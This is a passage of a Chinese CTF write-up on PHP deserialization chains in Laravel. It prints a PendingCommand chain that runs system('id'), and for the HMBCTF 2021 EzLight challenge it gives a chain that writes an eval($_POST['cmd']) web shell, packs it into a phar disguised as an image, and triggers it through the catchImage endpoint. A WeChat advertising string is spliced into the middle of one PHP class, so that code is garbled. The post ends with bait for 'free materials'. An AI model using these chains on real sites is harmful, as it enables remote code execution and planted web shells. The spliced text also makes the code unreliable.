

这是PendingCommand.php所在的路径：


按照WP所说找全了所需的函数，

利用是使用，实例化Filesystem, 触发__tostring里的原生类，实例化response类，调用response类里的_construct函数，来调用setcontent(),用FnStream.php里的call_user_func来执行输出文件名。

POC网上有：
给个官方可能可利用的exp

```
<?php
namespace Illuminate\Foundation\Testing{
    class PendingCommand{
        protected $command;
        protected $parameters;
        protected $app;
        public $test;
        public function __construct($command, $parameters,$class,$app){
            $this->command = $command;
            $this->parameters = $parameters;
            $this->test=$class;
            $this->app=$app;
        }
    }
}
namespace Illuminate\Auth{
    class GenericUser{
        protected $attributes;
        public function __construct(array $attributes){
            $this->attributes = $attributes;
        }
    }
}
namespace Illuminate\Foundation{
    class Application{
        protected $hasBeenBootstrapped = false;
        protected $bindings;
        public function __construct($bind){
            $this->bindings=$bind;
        }
    }
}
namespace{
    $genericuser = new Illuminate\Auth\GenericUser(
        array(
            "expectedOutput"=>array("0"=>"1"),
            "expectedQuestions"=>array("0"=>"1")
             )
    );
    $application = new Illuminate\Foundation\Application(
        array(
            "Illuminate\Contracts\Console\Kernel"=>
                array(
                    "concrete"=>"Illuminate\Foundation\Application"
                     )
             )
    );
    $pendingcommand = new Illuminate\Foundation\Testing\PendingCommand(
        "system",array('id'),
        $genericuser,
        $application
    );
    echo urlencode(serialize($pendingcommand));
}
?> 
```

## [HMBCTF 2021]EzLight

给了source.zip源码，是laravel框架开发的lightcms，先在本地把环境搭起来先，主要是修改.env文件改改数据库信息

先看到source\source\app\Http\Controllers\Admin\NEditorController.php

```
public function catchImage(Request $request)
{
    ...
    $files = array_unique((array) $request->post('file'));
        $urls = [];
        foreach ($files as $v) {
            $image = $this->fetchImageFile($v);
```

在catchImage函数里面以post传给file参数再给到fetchImageFile的$url

```
protected function fetchImageFile($url)
{
    if (isWebp($data)) {
                $image = Image::make(imagecreatefromwebp($url));
                $extension = 'webp';
            } else {
                $image = Image::make($data);
            }
```

这里的$url可控，这里imagecreatefromwebp因为isWebp的限制无法进入，所以这里的分支是进入Image::make($data);来，我们在此处下一个断点，然后分析一下前面的代码，我们需要在vps上放一个图片的链接，然后在http://127.0.0.1:9001/admin/neditor/serve/catchImage传参数即可动态调试了

然后一直跟进就可以发现有个file_get_contents函数



至此结束，这里可以phar反序列化了

用上面的链一即可

```
<?php
namespace Illuminate\Broadcasting {
    class PendingBroadcast {
        protected $events;
        protected $event;
        public function __construct($events, $event) {
            $this->events = $events;
            $this->event = $event;
        }
    }
    class BroadcastEvent {
        public $connection;
        public function __construct($connection) {
            $this->connection = $connection;
        }+WX:machinegunjoe666 免费领取资料
    }
}
namespace Illuminate\Bus {
    class Dispatcher {
        protected $queueResolver;
        public function __construct($queueResolver){
            $this->queueResolver = $queueResolver;
        }
    }
}
namespace PhpOption{
    final class LazyOption{
        private $callback;
        private $arguments;
        public function __construct($callback, $arguments)
{
            $this->callback = $callback;
            $this->arguments = $arguments;
        }
    }
}
namespace {
    $d = new PhpOption\LazyOption("file_put_contents", ["shell.php", "<?php phpinfo();eval(\$_POST['cmd']);?>"]);
    $c = new Illuminate\Broadcasting\BroadcastEvent('whoami');
    $b = new Illuminate\Bus\Dispatcher(array($d,"filter"));
    $a = new Illuminate\Broadcasting\PendingBroadcast($b, $c);
    print(urlencode(serialize($a)));

    @unlink("test.phar");
    $phar = new \Phar("test.phar");//后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub('GIF89a'.'<?php __HALT_COMPILER();?>');//设置stub
    $phar->setMetadata($a);//将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "test");//添加要压缩的文件
    $phar->stopBuffering();
    rename('test.phar','test.jpg');
}
```

上传之后，在vps上放

```
phar://./upload/image/202105/uwQGQ5sBTWRppO3lfHzOpxLkKODMS9NkrYHdobkz.gif
```

再到/admin/neditor/serve/catchImage用file传参打就可以了

# 参考链接

https://laravelacademy.org/books/laravel-docs-5_7

https://xz.aliyun.com/t/5911

https://www.anquanke.com/post/id/189718#h2-9

https://www.anquanke.com/post/id/231079

# 福利分享：



看到这里的大佬，动动发财的小手 **点赞 + 回复 + 收藏，能【 关注 】**一波就更好了

我是一名渗透测试工程师，为了感谢读者们，我想把我收藏的一些CTF夺旗赛干货贡献给大家，回馈每一个读者，希望能帮到你们。

干货主要有：

①1000+CTF历届题库（主流和经典的应该都有了）

②CTF技术文档（最全中文版）

③项目源码（四五十个有趣且经典的练手项目及源码）

④ CTF大赛、web安全、渗透测试方面的视频（适合小白学习）

⑤ 网络安全学习路线图（告别不入流的学习）

⑥ CTF/渗透测试工具镜像文件大全

⑦ 2021密码学/隐身术/PWN技术手册大全

各位朋友们可以关注+评论一波 然后扫描下方  备注：CSDN  即可免费获取全部资料


 